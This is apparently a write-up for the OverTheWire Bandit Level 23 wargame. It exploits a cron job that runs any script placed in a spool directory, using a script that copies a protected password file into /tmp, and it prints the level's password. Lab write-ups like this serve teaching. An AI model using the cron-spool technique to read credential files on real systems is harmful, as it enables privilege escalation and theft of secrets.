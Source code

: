 # Bandit Level 23


This time we have another program that runs at regular intervals, and are again told that looking in `/etc/cron.d`.

Looking at the cronjob `cronjob_bandit24`, it runs a script at `/usr/bin/cronjob_bandit23.sh`. This shell script is as follows:
```sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        timeout -s 9 60 ./$i
        rm -f ./$i
    fi
done
```
We can see that this script runs all code in `/var/spool/bandit24` every minute. To exploit this we must write our own shell script to find us the password.
```sh
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/thisdirisours/passwd
```
We need to mark this script as executable so it can be run by the cronjob. We can do this with `chmod`.
> `chmod a+x <filename>`

We also need to create a file to receive the password, and give it the correct permissions. We create the file with `touch` and change the permissions with `chmod`.
> `touch passwd && chmod a=wr passwd`

Now we copy our script into `/var/spool/bandit24` and wait. Once the cronjob occurs and runs our script, there will be text in the `passwd` file.
Opening this file reveals the password: `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`

